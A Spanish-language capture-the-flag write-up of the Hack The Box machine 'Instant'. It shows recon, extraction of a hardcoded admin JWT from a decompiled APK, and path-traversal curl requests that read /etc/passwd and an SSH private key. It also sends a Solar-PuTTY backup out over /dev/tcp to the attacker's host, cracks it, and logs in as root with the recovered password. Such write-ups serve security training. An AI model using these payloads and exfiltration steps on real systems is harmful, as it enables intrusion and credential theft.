 ```yaml
---
title: Instant
description: Instant es una máquina de dificultad media que incluye ingeniería inversa de una aplicación móvil, explotación de endpoints de API y descifrado de hashes y archivos cifrados. Los jugadores analizarán un APK para extraer información confidencial y un token de autorización codificado. Posteriormente, explotarán un endpoint de API vulnerable a la lectura arbitraria de archivos. Finalmente, comprometerán completamente el sistema descifrando y analizando los datos de sesión cifrados de Solar-PuTTY.
date: 2024-12-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-instant/instant_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - ssh
  - http
  - tcp
  - apk
  - api
  - data_leaks
  - lfi
  - password_attacks
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/htb/machines/instant:-$ ping -c 1 10.10.11.37
PING 10.10.11.37 (10.10.11.37) 56(84) bytes of data.
64 bytes from 10.10.11.37: icmp_seq=1 ttl=63 time=252 ms

--- 10.10.11.37 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 252.479/252.479/252.479/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/htb/machines/instant:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.37 -oG nmap1
Host: 10.10.11.37 ()	Status: Up
Host: 10.10.11.37 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/htb/machines/instant:-$ sudo nmap -sCV -p22,80 -vvv 10.10.11.37 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMM6fK04LJ4jNNL950Ft7YHPO9NKONYVCbau/+tQKoy3u7J9d8xw2sJaajQGLqTvyWMolbN3fKzp7t/s/ZMiZNo=
|   256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL+zjgyGvnf4lMAlvdgVHlwHd+/U4NcThn1bx5/4DZYY
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://instant.htb/
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: instant.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ echo '10.10.11.37\tinstant.htb' | sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ whatweb instant.htb
http://instant.htb [200 OK] Apache[2.4.58], Bootstrap[4.0.0], Country[RESERVED][ZZ], Email[support@instant.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[10.10.11.37], JQuery[3.2.1], Script, Title[Instant Wallet]
```

---
## Web Analysis

Encuentro una web sin mucho contenido. El botón principal, me permite descargar un APK.

![](assets/img/htb-writeup-instant/instant1_1.png)

Descomprimo el archivo con apktool.

```terminal
/home/kali/Documents/htb/machines/instant:-$ apktool d instant.apk
```
Busco referencias al dominio dentro del código descompilado, e identifico dos subdominios.

```
/home/kali/Documents/htb/machines/instant/instant:-$ grep -r "instant.htb"
smali/com/instantlabs/instant/TransactionActivity.smali:    const-string v0, "http://mywalletv1.instant.htb/api/v1/initiate/transaction"
smali/com/instantlabs/instant/RegisterActivity.smali:    const-string p4, "http://mywalletv1.instant.htb/api/v1/register"
smali/com/instantlabs/instant/ProfileActivity.smali:    const-string v7, "http://mywalletv1.instant.htb/api/v1/view/profile"
smali/com/instantlabs/instant/TransactionActivity$2.smali:    const-string v1, "http://mywalletv1.instant.htb/api/v1/confirm/pin"
smali/com/instantlabs/instant/LoginActivity.smali:    const-string v1, "http://mywalletv1.instant.htb/api/v1/login"
smali/com/instantlabs/instant/AdminActivities.smali:    const-string v2, "http://mywalletv1.instant.htb/api/v1/view/profile"
res/xml/network_security_config.xml:        <domain includeSubdomains="true">mywalletv1.instant.htb</domain>
res/xml/network_security_config.xml:        <domain includeSubdomains="true">swagger-ui.instant.htb</domain>
res/layout/activity_forgot_password.xml:        <TextView android:textSize="14.0sp" android:layout_width="fill_parent" android:layout_height="wrap_content" android:layout_margin="25.0dip" android:text="Please contact support@instant.htb to have your account recovered" android:fontFamily="sans-serif-condensed" android:textAlignment="center" />
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ echo '10.10.11.37\tinstant.htb\tmywalletv1.instant.htb\tswagger-ui.instant.htb' | sudo tee -a /etc/hosts
```

![](assets/img/htb-writeup-instant/instant1_2.png)
![](assets/img/htb-writeup-instant/instant1_3.png)

---
## Vulnerability Exploitation

Al analizar los archivos descompilados, encuentro un JWT con privilegios elevados.

```terminal
/home/kali/Documents/htb/machines/instant/instant:-$ cat smali/com/instantlabs/instant/AdminActivities.smali
```

![](assets/img/htb-writeup-instant/instant1_4.png)
![](assets/img/htb-writeup-instant/instant1_5.png)

Utilizo el JWT y confirmo que permite acceder a información restringida.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=1.log" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq
{
  "/home/shirohige/logs/1.log": [
    "This is a sample log testing\n"
  ],
  "Status": 201
}
```

Identifico que el parámetro `log_file_name` es vulnerable a LFI.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq | grep bash

"root:x:0:0:root:/root:/bin/bash\n",
"shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n",
```

Extraigo la clave `id_rsa` del usuario identificado previamente.

```terminal
/home/kali/Documents/htb/machines/instant:-$ curl -s --path-as-is -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2Fhome/shirohige/.ssh/id_rsa" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq '.["/home/shirohige/logs/../../../../../home/shirohige/.ssh/id_rsa"][]' | tr -d '"' | sed 's/\\n//' > id_rsa
```

Configuro los permisos y accedo al sistema como `shirohige`.

```terminal
/home/kali/Documents/htb/machines/instant:-$ chmod 600 id_rsa
/home/kali/Documents/htb/machines/instant:-$ ssh shirohige@instant.htb -i id_rsa

shirohige@instant:~$ id
uid=1001(shirohige) gid=1002(shirohige) groups=1002(shirohige),1001(development)

shirohige@instant:~$ cat user.txt
```

---
## Privilege Escalation

Busco archivos pertenecientes al usuario `shirohige` y encuentro un directorio en `/opt/backups` con un archivo relacionado con Solar-PuTTY.

```terminal
shirohige@instant:~$ find / -user shirohige 2>/dev/null | grep -vE "shirohige|proc|cgroup|run"
/dev/pts/0
/opt/backups
/opt/backups/Solar-PuTTY
/opt/backups/Solar-PuTTY/sessions-backup.dat
```
```terminal
/home/kali/Documents/htb/machines/instant:-$ nc -lnvp 4444 > sessinos-backup.dat
	listening on [any] 4444 ...
```

Envío el archivo a mi máquina.

```terminal
shirohige@instant:~$ cat /opt/backups/Solar-PuTTY/sessions-backup.dat > /dev/tcp/10.10.16.79/4444
```
```terminal
	... connect to [10.10.16.79] from (UNKNOWN) [10.10.11.37] 57220
```

Descargo un script para descifrar las credenciales almacenadas en Solar-PuTTY, y lo ejecuto utilizando `rockyou.txt` como diccionario.

```terminal
/home/kali/Documents/htb/machines/instant:-$ wget https://gist.githubusercontent.com/xHacka/052e4b09d893398b04bf8aff5872d0d5/raw/8e76153cd2d115686a66408f6e2deff7d3740ecc/SolarPuttyDecrypt.py

/home/kali/Documents/htb/machines/instant:-$ python3 SolarPuttyDecrypt.py sessinos-backup.dat /usr/share/wordlists/rockyou.txt
[103] password='estrella'

{"Sessions":[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b-b721-da76cbe8ed04","AuthenticateScript":"00000000-0000-0000-0000-000000000000","LastTimeOpen":"0001-01-01T00:00:00","OpenCounter":1,"SerialLine":null,"Speed":0,"Color":"#FF176998","TelnetConnectionWaitSeconds":1,"LoggingEnabled":false,"RemoteDirectory":""}],"Credentials":[{"Id":"452ed919-530e-419b-b721-da76cbe8ed04","CredentialsName":"instant-root","Username":"root","Password":"12**24nzC!r0c%q12","PrivateKeyPath":"","Passphrase":"","PrivateKeyContent":null}],"AuthScript":[],"Groups":[],"Tunnels":[],"LogsFolderDestination":"C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"}
```

Utilizo la contraseña obtenida para cambiar acceder al usuario `root`.

```terminal
shirohige@instant:~$ su root
Password: 12**24nzC!r0c%q12

root@instant:/home/shirohige# cat /root/root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/630" target="_blank">Instant Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }
